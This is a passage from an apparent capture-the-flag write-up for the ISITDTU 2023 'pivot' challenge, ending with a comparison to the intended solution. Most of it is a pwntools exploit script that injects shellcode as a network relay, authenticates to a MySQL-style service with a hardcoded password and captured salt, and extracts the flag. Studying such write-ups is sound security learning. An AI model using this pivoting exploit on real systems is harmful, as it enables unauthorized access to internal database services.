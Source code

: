 ```py
    shellcode += sendPacket(len(request_pubkey_payload))
    shellcode += recvPacket()
    shellcode += sendPacket(260)
    shellcode += recvPacket()
else:
    shellcode += sendPacket(len(select_payload))
    shellcode += recvPacket()
    shellcode += sendPacket(len(get_payload))
    shellcode += recvPacket()
    shellcode += recvPacket()
shellcode += shellcraft.exit(0)

code = asm(shellcode)
p.sendafter(b"flag", code)
packet = p.recvuntil(b"caching_sha2_password")
salt = packet[16:16+8] + packet[43:55]
log.info(f"salt : {salt}")
password = b"qp37RWf@@Ygvd@"
hashed = scramble_caching_sha2(password, salt)
login_payload = login_1 + hashed + login_2
p.send(login_payload)
p.recv()

if args.AUTH:
    p.send(request_pubkey_payload)
    key_start = p.recvuntil(b"-----BEGIN PUBLIC KEY-----")[-len("-----BEGIN PUBLIC KEY-----"):]
    key_end = p.recvuntil(b"-----END PUBLIC KEY-----")
    key = key_start + key_end
    print(key.decode())
    open("key.pem", "wb").write(key)

    result = sha2_rsa_encrypt(password, salt, key)
    p.send(b'\x00\x01\x00\x05' + result)
    log.success("Authentication Success!")
else:
    log.info("select payload")
    p.send(select_payload)
    p.recv()

    log.info("get payload")
    p.send(get_payload)
    p.recvuntil(b"ISITDTU")
    flag = (b"ISITDTU" + p.recvuntil(b"}")).decode()
    log.success(f"flag : {flag}")
    p.recv()
```

![2.png](2.png)

Both the [intended](https://github.com/phieulang1993/ctf-writeups/blob/master/2023/ISITDTU%20CTF%20QUALS%202023/pivot/pivot.py) and my solutions are the same in that we used the shellcode as the middleman, but he used the program smartly.
